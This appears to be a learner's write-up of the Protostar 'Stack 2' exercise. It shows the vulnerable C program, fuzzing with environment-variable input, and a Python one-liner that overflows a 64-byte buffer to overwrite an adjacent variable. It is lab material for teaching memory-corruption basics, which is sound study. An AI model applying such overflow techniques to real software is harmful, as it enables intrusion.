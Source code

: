 # [cd ../](../index.md)
# Stack 2
> Stack2 looks at environment variables, and how they can be set.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Fuzzin it
- We know we have to use stg about getenv(`man getenv` for literally nothing xd)
- Start setting a `GREENIE` environment variable to `test` (`export GREENIE=test` then execute `./stack2`)
  - Got nothing useful (`Try again, you got 0x00000000`)
- Set 64 `A` as GREENIE
  - Same
- Set 65 `A` as GREENIE
  - Gotcha `Try again, you got 0x00000041`

## Exploitin it
- We need `modified` to be `0x0d0a0d0a` and it's a lil endian elf again cuz `A` (41) popped on the end.
![ascii](ascii.png)  
`0x0d0a0d0a` is `0a0d0a0d` and these are `\n\r\n\r`. These 4 are special chars so we have to use python and work in base16 with them.

## The payload
GREENIE has to be  65 `A` + `\x0a\x0d\x0a\x0d`
```
export GREENIE=$(python -c 'print 64*"A" + "\x0a\x0d\x0a\x0d"')
./stack2
you have correctly modified the variable
```
# BOOOOM GOT IT :D

